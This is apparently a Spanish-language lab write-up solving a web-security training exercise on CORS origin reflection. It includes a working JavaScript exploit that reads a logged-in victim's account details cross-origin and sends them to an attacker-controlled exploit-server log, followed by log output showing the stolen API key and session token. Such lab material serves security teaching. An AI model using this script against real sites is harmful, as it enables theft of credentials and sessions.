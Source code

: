 # 01 Lab: CORS vulnerability with basic origin reflection

```jsx
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter
```

LA API DE NUESTRO USUARIO LA VEMOS

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image.png)

Debemos sacar de que request se obtiene esta api, para forzar a que nos de la API del admin

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%201.png)

```jsx
<script>
	fetch('/accountDetails', {credentials:'include'})
	.then(r => r.json())
	.then(j => document.getElementById('apikey').innerText = j.apikey)
</script>
```

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%202.png)

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%203.png)

1. La respuesta indica  `Access-Control-Allow-Credentials` 
2. Agregamos en la consulta el header :`Origin: https://example.com`
3. Vemos que en el origen está reflejado la cabecera  `Access-Control-Allow-Origin` 

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%204.png)

1. Vamos al exploit server usando el siguiente script, para obtener los valores en texto plano como respuesta.

```jsx
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a0200ff04db1ddb8291e8bc00860057.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%205.png)

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%206.png)

```jsx
GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22mb3KgaQCchw5JDpEYCho1XPW7Orh3RbO%22,%20%20%22sessions%22:%20[%20%20%20%20%22CCiwxWIywzlbk6Pb2UWFn08CtnDI0Olu%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```jsx
GET /log?key={  "username": "administrator",  "email": "",  "apikey": "mb3KgaQCchw5JDpEYCho1XPW7Orh3RbO",  "sessions": [    "CCiwxWIywzlbk6Pb2UWFn08CtnDI0Olu"  ]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%207.png)

![image.png](01%20Lab%20CORS%20vulnerability%20with%20basic%20origin%20reflec%2080085e7f406c44b6b7862c94f793cde0/image%208.png)